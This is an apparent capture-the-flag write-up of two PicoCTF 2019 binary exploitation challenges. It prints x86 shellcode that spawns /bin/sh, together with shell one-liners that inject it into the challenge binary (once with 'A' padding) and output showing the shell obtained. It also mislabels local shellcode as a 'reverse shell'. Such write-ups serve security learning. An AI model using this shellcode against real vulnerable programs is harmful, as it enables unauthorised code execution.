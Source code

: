 ```yaml
---
date: 2019-10-25 23:48:05
layout: post
title:  "shellcode 1*2 - PicoCTF 2019"
subtitle: "Created by: Mrx-Exploit"
description: >- 
  Created by: Mrx-Exploit
tags: 
  - picoCTF 
  - pwn
image: >- 
  /assets/img/binary-exploitation/shellcode/banner.png
optimized_image: >- 
  /assets/img/binary-exploitation/shellcode/banner.png
category: blog
author: Hazem Hesham
paginate: true
---
```


# handy-shellcode

> Points: 50  
> Difficulty: easy  

This challenge looks easy so let's see what will happen  
After Downloading this challenge program we will use `chmod +x vuln` I think it's Basic knowledge  
Now let's run it  
```
root@kali:~/Desktop/picoctf# ./vuln
Enter your shellcode:
ls
ls
Thanks! Executing now...
Segmentation fault
```
It's Taking what any thing I type it and print it Hmmm  
Let's try to get reverse shellcode from [Shell-Code.org](http://shell-storm.org/shellcode/files/shellcode-606.php)  
So our Payload will be  
```
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln  
```
Then you will get reverse shell it's easy to hack :D  

---

# slippery-shellcode

> Points: 200  
> Difficulty: easy  

This challenge looks like first one so let's try the same shellcode and see what will happen  
```
root@kali:~/Desktop/picoctf# (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                  1�@̀
Thanks! Executing from a random location now...
ls
Segmentation fault
```
Wait it's told me `from a random location` let's read the source code  
`int offset = (rand() % 256) + 1;`  
Hmm Let's see to give it bunsh of `A` in the first  
So our Payload will be  
```
(python -c "print 'A'*300+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
```  

Let's see what will happen  

``` 
root@kali:~/Desktop/picoctf# (python -c "print 'A'*300+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
Enter your shellcode:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�Ph//shh/bin����°
  1�@̀
Thanks! Executing from a random location now...

ls
flag.txt  vuln
```
We got our shell again it's looks easy too

